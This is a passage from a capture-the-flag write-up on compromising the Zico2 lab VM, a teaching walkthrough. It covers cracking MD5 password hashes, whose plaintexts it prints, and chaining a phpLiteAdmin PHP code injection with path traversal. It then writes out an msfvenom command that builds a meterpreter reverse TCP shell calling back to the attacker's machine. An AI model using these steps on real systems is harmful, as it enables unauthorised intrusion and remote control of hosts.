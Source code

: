 With MD5 still a possibility, I tried submitting the two hashes to [Crackstation](https://crackstation.net) to see if either hash was contained in their 15 billion row lookup table and got matches back for both. The hashed root password was '34kroot34' and the hashed password for zico was 'zico2215@'. I thought maybe these might be reused for SSH users, so I tried using both sets of credentials to login over SSH, but no luck there.

With no other ideas of how to use the credentials, I started looking for known vulnerabilities in the version of phpLiteAdmin I was investigating. That yielded a promising result on [Exploit DB](https://www.exploit-db.com/exploits/24044/) that allowed PHP Remote Code Injection, by allowing a user to control the file extension for a database name. By writing a row to this database containing some PHP, you can create a script that will be executed by Apache's PHP module, surrounded by some SQLite file metadata, which will be treated as plain text content. I tried the proof of concept in the Exploit DB report, which calls the `phpinfo()` function to dump a lot of useful PHP configuration data.

Using the path traversal vulnerability in the view.php script I found earlier, I was able to browse to the directory that stored the site's databases and execute the PHP script I just created.

[![phpLiteAdmin PHP Remote Code Injection 1]({{ site.url}}/assets/Zico2/Zico2PHPInjection1.png)]({{ site.url}}/assets/Zico2/Zico2PHPInjection1.png)

[![phpLiteAdmin PHP Remote Code Injection 2]({{ site.url}}/assets/Zico2/Zico2PHPInjection2.png)]({{ site.url}}/assets/Zico2/Zico2PHPInjection2.png)

[![phpLiteAdmin PHP Remote Code Injection 3]({{ site.url}}/assets/Zico2/Zico2PHPInjection3.png)]({{ site.url}}/assets/Zico2/Zico2PHPInjection3.png)

Now that I had achieved Remote Code Execution, I spent a while trying to get a PHP web shell or Metasploit's PHP Reverse TCP payload to work, but couldn't get anywhere useful. So then I started thinking about other ways I could exploit this to get a reverse shell. The PHP Info page disclosed the output of `uname -a`, so I knew the target VM was running Ubuntu 64 bit.

After a while, I came to the conclusion that I could use the PHP RCE exploit to get the target to download and execute a binary payload, which I could host on my Kali VM using a simple Python HTTP server. Using Metasploit, I could build a binary payload to preform a reverse TCP connection to establish a remote shell.

First things first, let's create the Metasploit payload. I generated this using msfvenom, which is the standalone tool in the Metasploit framework for payload generation.

~~~
~/b/zico2 # ❯❯❯ msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf -o shell -a x64 --platform linux LHOST=192.168.56.102 LPORT=12345
No encoder or badchars specified, outputting raw payload
Payload size: 746944 bytes
Final size of elf file: 746944 bytes
Saved as: shell
~~~

Those options mean:
* `-p linux/x64/meterpreter_reverse_tcp` - Use the linux/x64/meterpreter_reverse_tcp payload
* `-f elf` - Generate an ELF format executable
* `-o shell` - Save to a file called shell
* `-a x64` - x64 architecture. Despite the payload being for the x64 architecture, msfvenom still needs to know which architecture to build for.
* `--platform linux` - Build for Linux. Despite the payload being for Linux, msfvenom still needs to know which platform to build for.
* `LHOST=192.168.56.102` - Set the LHOST variable (the target for the reverse shell to connect to) to my Kali VM's IP address
* `LPORT=12345` - Connect to a listener on port 12345
